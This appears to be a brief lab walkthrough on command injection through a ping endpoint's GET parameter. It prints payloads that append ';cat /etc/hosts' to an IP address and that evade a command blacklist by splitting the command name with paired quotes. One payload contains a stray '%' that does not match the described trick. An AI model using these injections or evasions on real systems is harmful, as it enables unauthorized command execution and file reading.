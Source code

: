 # Command Injection Walkthrough

# First Encounter
We can use the get parameter `param` to ping another host, providing our ip addresse. 
To execute an Command Injection, we can simply contacenate another string which will be interpreted as a linux command:

```bash
/secondEncounter?param=8.8.8.8;cat+/etc/hosts
```

![firstEncounterSolution](media/firstEncounterSolution.png)

# Second Encounter
To circumvent blacklisted commands, we can simply add `'` between our command to evade the restriction. Please consider, that we need to provide an even amount of this characters: 
- `c'a't` will work
- `c'at` will not work

```bash
/secondEncounter?param=8.8.8.8; c'a%'t+/etc/hosts
```

![secondEncounterSolution](media/secondEncounterSolution.png)